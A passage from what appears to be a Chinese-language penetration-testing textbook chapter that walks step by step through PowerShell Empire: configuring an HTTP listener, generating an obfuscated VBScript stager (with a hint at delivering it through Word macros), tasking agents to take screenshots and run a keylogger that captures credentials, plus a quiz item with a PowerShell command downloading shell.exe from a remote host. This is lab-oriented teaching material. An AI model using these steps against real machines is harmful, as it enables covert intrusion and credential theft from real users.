

图 9.14 – Empire 客户端窗口

没错——它具有 Metasploit 的外观和感觉。看看提示符上方的状态：它告诉我们 Empire 的运作依赖于三个主要组件。这些组件是 *模块*、*监听器* 和 *代理*。虽然这里没有显示，但同样重要的第四个组件是 *引导程序*。这些概念在我们深入探讨时会变得更清晰，但让我们先更详细地了解它们：

+   *模块* 本质上与 Metasploit 中的模块概念相同——它是一段执行特定任务的代码，充当我们攻击的有效载荷。

+   *监听器* 是不言而喻的：它将在本地 Kali 机器上运行，并等待来自被攻陷目标的回连。

+   *代理* 用于驻留在目标上，帮助保持攻击者与目标之间的连接。它们接受模块命令并在目标上执行。

+   *加载器*与 Metasploit 中一样：它是为我们的模块在被攻陷的主机上运行做准备的代码片段。把它看作是攻击者与目标之间的通信中介。

让我们从首次使用者最重要的命令开始——`help`：



图 9.15 – Empire 的帮助菜单

你注意到 PowerShell 和 PowerShell Empire 让随时学习变得轻松吗？你可以随时输入`help`查看支持的命令并了解更多信息。你注意到加载了 396 个模块吗？你也可以快速浏览它们——输入`usemodule`，后面加个空格，然后使用箭头键浏览列表：



图 9.16 – Empire 中的自动补全

注意与 Metasploit 在模块树布局和功能上的重叠。那么，Empire 有什么不同呢？嗯，你知道我怎么想的，不是吗？我们完全可以自己查看这些 PowerShell 脚本，而不是我只告诉你。

在新窗口中，使用`cd Empire/data/module_source/credentials`切换到凭证模块的源目录，然后使用`ls`列出目录内容：



图 9.17 – 看一看原始脚本

看这个：`.ps1` 文件。我们来打开一个看看。执行 `vim dumpCredStore.ps1`：



图 9.18 – 看一看凭证窃取脚本

这些都是相当复杂和强大的 PowerShell 脚本。现在，我知道你心中的黑客在想什么——“*就像我们用 Ruby 为 Metasploit 写模块一样，我也可以写一些 PowerShell 脚本并将其融入到我的 Empire 攻击中*。”做得好。我把这个任务留给你，因为我们需要回到学习如何通过监听器、加载器和代理来设置 Empire 攻击的正题上。

## 配置监听器

理论上，你可以从一开始就着手开发一个代理。但没有监听器，你是无法前进的。没有回家的路，你是无法深入丛林的。从 Empire 主提示符开始，输入`listeners`并按*Enter*：



图 9.19 – 监听器界面

请注意，这会改变提示符；CLI 使用类似 iOS 的风格来进入配置模式。你现在处于**监听器**模式，因此再次输入`help`将显示**监听器**帮助菜单。

现在，输入`uselistener`并在末尾加个空格，显示可用的监听器。HTTP 监听器听起来是个不错的选择——端口 `80` 在防火墙上通常是开放的。完成`uselistener/http`命令，然后使用`info`查看选项：



图 9.20 – 特定监听器的界面

如果这看起来你不熟悉，现在你会看到这个界面让人想起 Metasploit。是不是很温馨？这让我想喝杯热可可，蜷缩起来。

你会注意到，选项默认设置了你所需的一切，所以你可以直接执行 `execute` 来进行设置。虽然有很多选项，但请根据你的环境和目标考虑选择。如果你将主机改为 HTTPS，Empire 会在后台相应地进行配置，但你需要一个证书。Empire 附带一个自签名证书生成器，它会将结果放在正确的文件夹中——只需在 `setup` 文件夹内运行 `cert.sh`。目前，我正在使用普通的 HTTP。你需要使用 `set Port 80` 来配置监听端口。执行后，输入 `main` 返回到 Empire 的主提示符。注意，`listeners` 的数量现在是 `1`。现在，我们来学习如何配置 stager。

## 配置 stager

输入 `usestager` 后加空格来查看我们可以使用的 stager：



图 9.21 – 使用 usestager 的自动补全

正如你所看到的，这里有社会工程学的潜力；我将留给你发挥创意，想办法说服用户执行嵌入在 Word 文档中的恶意宏。这类攻击即便在撰写时仍然很常见，不幸的是，我们有时会看到它们成功突破防御。现在，我使用的是 VBScript stager，所以我将完成 `usestager windows/launcher_vbs` 命令。我们将立即看到我们的选项菜单。配置选项时，有两个重要的事项需要注意：

+   Stager 必须知道要与哪个监听器关联。你在这里通过名称进行定义；在过去，你需要在第一次创建监听器时记下它的名称。现在，在 `set Listener` 后加空格，会自动给出现有监听器的列表。

+   这些选项区分大小写。

这里有一些很棒的选项，以下表格展示了它们。我最喜欢的是代码混淆功能。我鼓励你尝试使用这个选项并查看生成的代码（混淆需要本地安装 PowerShell）：



图 9.22 – Stager 选项菜单

一旦你准备好，执行 `execute` 来生成 stager。你会在 `/var/lib/powershell-empire/empire/client/generated-stagers` 目录下找到生成的 VBSript 文件。

继续查看你那款崭新的 stager。让我们看看里面的内容。

## 你的内部人员 – 与代理合作

你查看过 VBScript 吗？它非常巧妙。查看一下：`vim /var/lib/powershell-empire/empire/client/generated-stagers/launcher.vbs`。尽管我们没有为实际的 PowerShell 配置混淆，但正如你所看到的，这个 VBScript 的用途难以确定：



图 9.23 – 窥视 VBScript stager 的内部

无论你选择了哪种方法，我们都在 Empire 中进行三阶段的代理投递过程。stager 是打开大门的那一部分；Empire 负责代理的旅行，以下图所示：



图 9.24 – 三阶段代理投递过程

当你在 Windows 目标上执行 stager 时，你不会看到任何变化。不过，看看你的 Empire 屏幕，观察三阶段代理投递过程完成。代理与攻击者之间的关系类似于 Meterpreter 会话，且管理方式也相似。输入`agents`进入`agents`菜单，然后使用`interact`与刚刚设置的代理进行交互：



图 9.25 – 准备接受任务的活跃代理

一如既往，使用`help`查看可用的交互选项。目前，让我们用`sc`从目标机器获取一张截图。客户端窗口只会告诉你它已任务代理，但你可以切换回服务器窗口，查看一些幕后细节：



图 9.26 – 服务器窗口中任务的详细信息

你可以在`/var/lib/powershell-empire/downloads`中找到你的战利品。截图很有趣，但密码会被视觉模糊处理，因此让我们通过 PowerShell 键盘记录模块来结束介绍。

## 为代理任务配置模块

首先，输入`agents`命令进入代理模式。执行`usemodule powershell/collection/keylogger`，然后用你刚才记下的名字执行`set Agent`。然后输入`execute`，坐等你的代理在敌后开始工作。在你的`interact`会话中，使用`view`命令查看任务的进展情况。

我很乐意写一大段复杂的文字，详细描述所有的活动部分，但配置一个基本模块并任务代理就这么简单。Empire 框架实在是太方便了，不仅仅局限于这一章节的介绍——我们还需要处理权限提升和持久性的问题，所以请把这个强大的工具随时准备好。来看一下这个实验的结果：我们捕获了一些凭据，代理还很友好地提供了输入凭据的页面标题：



图 9.27 – 帝国代理发送的捕获键击

就像我们配置监听器和 stagers 时一样，我们有一些可选设置，也有一些是必需的，Empire 会尽力提前为你配置好。任务代理之前，请仔细审查可用选项。

在现代 Windows 企业环境中，PowerShell 是我们可用的终极“就地作业”工具，而 Empire 框架则能使你在评估中成为一名“忍者”。如果你跟随这些实验，你已经打下了更深入探索的基础，那么赶快打开目标虚拟机，试试新技巧吧。我们将在后期利用 Empire 进行后渗透工作，敬请期待。

# 总结

在本章中，我们从两个角度探索了 PowerShell。首先，我们将 PowerShell 作为一个交互式任务管理命令行工具和脚本语言进行介绍。然后，我们利用 PowerShell Empire 攻击框架中构建的 PowerShell 脚本，展示了攻击 Windows 机器时的潜力。最终，我们学习了如何利用 Windows 机器上的立足点，使用内置功能为攻击的后期阶段做准备。

本章节的介绍是特权提升和持久性的理想过渡，我们将在此基础上将我们的立足点转变为完全的特权入侵，并为长期保持访问权限铺平道路。现在，我们将跳入下一个章节，介绍 Shell 编程，并快速学习如何操作栈。

# 问题

请回答以下问题，测试你对本章内容的掌握情况：

1.  `ls`、`dir` 和 PowerShell 的 _____ 提供相同的功能。

1.  `[Convert]::ToString($number, 2)` 对 `$number` 变量做了什么操作？

1.  在 PowerShell 中，我们使用 ____ 来筛选结果。

1.  以下命令将创建 `c:\shell` 目录并将 `shell.exe` 写入该目录 (正确 | 错误)：

    (New-Object System.Net.WebClient).DownloadFile("http://10.10.0.2/shell.exe", "c:\shell\shell.exe")

1.  在配置 HTTPS 监听器时，可以使用 `cert.sh` 脚本来防止目标浏览器显示证书警告。(正确 | 错误)

# 深入阅读

要了解本章所涉及的主题的更多信息，请查看以下资源：

+   Empire 项目在 GitHub 上: [`github.com/EmpireProject/Empire`](https://github.com/EmpireProject/Empire)

+   Microsoft Virtual Academy: PowerShell 培训课程: [`mva.microsoft.com/training-topics/powershell#!lang=1033`](https://mva.microsoft.com/training-topics/powershell#!lang=1033)
